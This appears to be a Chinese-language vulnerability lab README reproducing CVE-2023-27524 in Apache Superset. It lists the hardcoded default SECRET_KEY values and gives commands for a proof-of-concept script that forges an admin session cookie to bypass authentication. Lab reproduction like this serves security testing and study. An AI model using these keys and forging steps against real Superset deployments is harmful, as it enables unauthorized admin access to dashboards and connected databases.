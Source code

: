 # Apache Superset 硬编码JWT密钥导致认证绕过漏洞（CVE-2023-27524）

Apache Superset是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset存在一个硬编码JWT密钥漏洞（CVE-2023-27524）。该应用程序默认配置了一个预设的`SECRET_KEY`值，用于签名会话Cookie。当管理员未更改这个默认密钥时，攻击者可以伪造有效的会话Cookie并以任意用户（包括管理员）身份进行认证。这允许未授权访问Superset仪表盘、连接的数据库，并可能导致远程代码执行。

参考链接：

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

## 环境搭建

执行以下命令启动Apache Superset 2.0.1服务器：

```
docker compose up -d
```

服务启动后，可以通过`http://your-ip:8088`访问Superset。默认登录凭据为admin/vulhub。

## 漏洞复现

这个漏洞存在的原因是Superset使用以下硬编码的`SECRET_KEY`作为密钥来签名Cookie：

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (版本 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (版本 >= 1.4.1)
- `thisISaSECRET_1234`
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`
- `TEST_NON_DEV_SECRET`

使用[CVE-2023-27524.py](CVE-2023-27524.py)伪造管理员（用户id为1）会话Cookie：

```bash
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

该脚本尝试使用已知的默认密钥破解会话Cookie。如果成功，它将伪造一个新的会话Cookie，其中user_id=1（通常是管理员用户），并验证登录。

![](1.png)

将这个伪造的JWT令牌添加到Cookie值中，如`Cookie: session=eyJ...`，即可访问Superset的后端API：

![](2.png)
